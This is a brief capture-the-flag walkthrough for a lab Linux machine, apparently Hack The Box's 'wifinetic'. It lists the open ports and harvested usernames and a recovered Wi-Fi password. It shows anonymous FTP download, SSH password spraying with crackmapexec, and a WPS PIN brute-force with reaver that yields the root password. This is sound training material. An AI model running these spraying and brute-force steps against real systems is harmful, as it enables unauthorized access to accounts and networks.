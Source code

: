 ## wifinetic
| Name | IP | Difficulty | OS |
| wifinetic | 10.10.11.247 | Easy | Linux |

## Nmap
| HOST | PORT | PROTO | SERVICE | VERSION
| 10.10.11.247 (wifinetic.htb) | 21 | tcp | vsftpd | 3.0.3 | 
| 10.10.11.247 (wifinetic.htb) | 22 | tcp | OpenSSH | 8.2p1 Ubuntu 4ubuntu0.9 | 
| 10.10.11.247 (wifinetic.htb) | 53 | tcp |  |  | 

## USERS

- HR Manager: samantha.wood93
- Wireless Network Admin: olivia.walker17
- netadmin:VeRyUniUqWiFIPasswrd1!
- root

## NOTES
- Anonymous FTP login allowed 
```
| -rw-r--r--    1 ftp      ftp          4434 Jul 31 11:03 MigrateOpenWrt.txt
| -rw-r--r--    1 ftp      ftp       2501210 Jul 31 11:03 ProjectGreatMigration.pdf
| -rw-r--r--    1 ftp      ftp         60857 Jul 31 11:03 ProjectOpenWRT.pdf 
| -rw-r--r--    1 ftp      ftp         40960 Sep 11 15:25 backup-OpenWrt-2023-07-26.tar
|_-rw-r--r--    1 ftp      ftp         52946 Jul 31 11:03 employees_wellness.pdf 
```
- Recursively download files from the FTP server `wget -r ftp://10.10.11.247/`
- Unzip the .tar file `tar -xvf backup-OpenWrt-2023-07-26.tar`
- Get network key `cat etc/config/wireless` SSID: `OpenWrt` Password: `VeRyUniUqWiFIPasswrd1!`
- Spray SSH with the wireless password and usernames gathered from the `.pdf` and `etc/passwd` files `cme ssh 10.10.11.247 -u users.txt -p 'VeRyUniUqWiFIPasswrd1!'`
- netadmin has shell access
- The user flag is in netadmin's home directory
- Reaver has network capability `/usr/bin/reaver = cap_net_raw+ep`
- Scan network interfaces `iwlist scan`
- wlan0 BSSID: `02:00:00:00:00:00`
- Find monitor interface `wlan0` with `iwconfig`
- Use Reaver to get the PIN: `12345670` and Password: `WhatIsRealAnDWhAtIsNot51121!`
- Login to `root` with the password
- The root flag is in the root user's home directory
